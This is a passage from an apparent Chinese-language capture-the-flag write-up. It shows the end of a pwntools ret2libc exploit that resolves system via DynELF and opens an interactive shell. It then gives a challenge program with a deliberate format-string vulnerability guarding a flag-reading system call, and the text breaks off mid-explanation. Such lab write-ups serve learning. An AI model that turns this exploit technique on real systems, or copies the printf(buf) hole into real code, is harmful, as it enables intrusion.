 ```python
d=DynELF(leak,main,elf=elf)
system=d.lookup('system','libc')
gets=d.lookup('gets','libc')
p.sendline(p32(0xdeadbeef)+p32(gets)+p32(system)+p32(buf1)+p32(buf1+4))
p.interactive();

```

## crack
```c
#include <stdio.h>
#include <unistd.h>
#include <time.h>
#include <stdlib.h>
unsigned int password ;
int main(){

    setvbuf(stdout,0,2,0);
    char buf[100];
    char input[16];
    int fd ;
    srand(time(NULL));
    fd = open("/dev/urandom",0);
    read(fd,&password,4);
    printf("What your name ? ");
    read(0,buf,99);
    printf("Hello ,");
    printf(buf);
    printf("Your password :");
    read(0,input,15);
    if(atoi(input) != password){
        puts("Goodbyte");
    }else{
        puts("Congrt!!");
        system("cat /home/crack/flag");
    }
}
```

开了NX和Canary

不过问题不大

源码本来就有

system("cat /home/crack/flag");

so 我们可以令

    atoi(input) == password

input我们可以控制但是password不知

可是在比较之前的几行有个fmtstr漏洞
    